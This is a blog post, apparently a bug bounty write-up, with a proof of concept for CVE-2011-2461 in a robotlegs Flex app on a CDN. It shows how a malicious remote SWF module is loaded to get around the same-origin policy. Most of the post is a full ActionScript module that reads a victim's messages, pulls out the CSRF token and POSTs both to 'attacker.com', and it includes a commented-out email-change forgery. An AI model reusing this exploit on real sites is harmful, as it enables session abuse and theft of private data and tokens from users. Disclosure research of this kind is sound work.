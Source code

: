 ```yaml
---
title: PoC for robotlegs—a MVC Flex applications vulnerable to CVE-2011-2461
date: 2017-05-23 00:00:00 +02:00
categories:
- flash
- crossdomain_bypass
layout: post
excerpt: PoC for robotlegs—a MVC Flex applications vulnerable to CVE-2011-2461
comments: false
thumbnail: japan.jpg
---
```


Last year when I participated in a bug bounty program, I have found a web application that hosted a vulnerable `.swf` on their CDN. My PoC abuses the CDN as the intermediate from the web app to attacker host.The PoC abuses robotlegs-framework-v1.5.2 a vulnerable ActionScript Application Framework which allows SoP bypass. 

It is not typical to exploit it (to read the HTTP Response of the vulnerable web app) because  the vulnerable `.SWF` file is hosted on the CDN. In addition, the attacker can only do SOP bypass on the CDN. However, a `crossdomain.xml ` policy of the vulnerable app allowed cross domain communication between the vulnerable web app and its CDN.
> Adobe Flex SDK is prone to a cross-site scripting vulnerability because it fails to properly sanitize user-supplied input to express-install template files.

> An attacker could exploit this vulnerability to execute arbitrary script code in the context of a web application built using the SDK. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

> Adobe Flex SDK 4.5.1 and prior versions are affected. http://www.securityfocus.com/bid/50869/discuss


![](/img/chart.png)

The vulnerable SWF file has 3 GET parameter which are game, config, and type. `config` parameter is used to load config.xml which is located in CDN domain.

config.xml looks like this.

    <root>
    <module type="game" url="GameViewer.swf"/>
    <module type="puzzle" url="Puzzle.swf"/>
    <default>
    <type>puzzle</type>
    <game>assets/data.json</game>
    </default>
    </root>

Based on config.xml file, vulnerable SWF file extends the module class of robotlegs MVC. Besides, main.swf loads gameviewer.swf and puzzle.swf modules. 

The malicious user could force main.swf to load or inject malicious remote module(malicious swf files hosted in the attacker's server) to itself by changing the config parameter.The injected malicious remote module can send AJAX request and read HTTP response of victim website. In other words, the malicious user can read messages, steal CSRF token, and send ajax request (change password of the victim, or any other actions)— Same-Origin Policy Bypass.

[More information here](https://threatpost.com/adobe-cve-2011-2461-remains-exploitable-four-years-after-patch/111754/) 


{% highlight xml %}
<?xml version="1.0" encoding="utf-8"?>
<mx:Module xmlns:fx="http://ns.adobe.com/mxml/2009" 
           xmlns:s="library://ns.adobe.com/flex/spark" 
           xmlns:mx="library://ns.adobe.com/flex/mx" 
           implements="interfaces.IModule1"
           layout="vertical" width="100%" height="100%">
    <fx:Script>
        <![CDATA[
            import contexts.Module1Context;
	import flash.net.*
	import by.blooddy.crypto.serialization.JSONer;
            import interfaces.IModule1;
            import org.robotlegs.core.IInjector;
	import flash.text.TextField;
            import flash.external.ExternalInterface;
            private var context:Module1Context;
			private var loader:URLLoader = new URLLoader();
			//attacker domain here
			private var attackerdomain:String = 'https://attacker.com';
            [Inject]
            public function set parentInjector(value:IInjector):void
            {
                context = new Module1Context(this, value);			
            }
         
            public function dispose():void
            {
            }
			
			//private function buttonClick():void {
			//	ExternalInterface.call('console.log(2)');
			//}
			private function ajaxbuttonClick(url:String):void 
			{
					var _req:URLRequest = new URLRequest(url);
					loader.addEventListener(Event.COMPLETE, _onCompleteJSON);
					loader.load(_req);
			}
			
			private function extractClick(url:String):void 
			{
					var _req:URLRequest = new URLRequest(url);
					loader.addEventListener(Event.COMPLETE, _onComplete);
					loader.load(_req);
			}
			
			private function readmessage():void 
			{
				ajaxbuttonClick('https://www.VICTIM.com/callback/messages/show/VICTIMcom');
			}
			private function extract_token():void
			{
				
				extractClick('https://www.VICTIM.com/settings/change-email');
			}
			/**private function change_email():void
			{
					ExternalInterface.call('alert(1)');
					urlRequest.data = 'POST_PARAMETER_HERE&user_settings_change_email[_token]=' + extract_token() ;
					urlRequest.method = 'POST';
					loader.addEventListener(Event.COMPLETE, shithappen);
					loader.load(urlRequest);
				
			}**/
			private function shithappen():void 
			{
				
			}
			private function _onComplete(e:Event):void {	
				var str:String = loader.data;
				var pattern:RegExp =/(_csrf_token" value="(.+)">)/g;
				var results:Array = str.match(pattern);
				ExternalInterface.call('alert', 'notjson');
				ExternalInterface.call('alert', results[1].slice(20, 63));
				senderinfo(results[1].slice(20, 63));		
			}
			private function _onCompleteJSON(e:Event):void {
				ExternalInterface.call('prompt', escape(loader.data));
				senderinfo(escape(loader.data));
			}
			private function senderinfo(data:String):void{
					var _req:URLRequest = new URLRequest(attackerdomain);
					_req.method = 'POST';
					_req.data=data
					loader.addEventListener(Event.COMPLETE, function(event:Event):void {
						ExternalInterface.call('console.log("info has been send to attacker domain")');
					}
					);
					loader.load(_req);
			}

        ]]>
    </fx:Script>
    <s:Button id="button" label="read message1" click="readmessage()" />
	<s:Button id="button1" label="extract token" click="extract_token()" />

</mx:Module>

{% endhighlight %}

**References:**
- [http://www.digitaldogbyte.com/2010/08/17/robotlegs-modular-utilities-tutorial/](http://www.digitaldogbyte.com/2010/08/17/robotlegs-modular-utilities-tutorial/)
- [Get an overview of this framework for ActionScript 3 development through a simple](http://www.adobe.com/devnet/actionscript/articles/intro-robotlegs-pt1.html)
- [http://joelhooks.com/2010/05/02/modular-robotlegs/](http://joelhooks.com/2010/05/02/modular-robotlegs/)
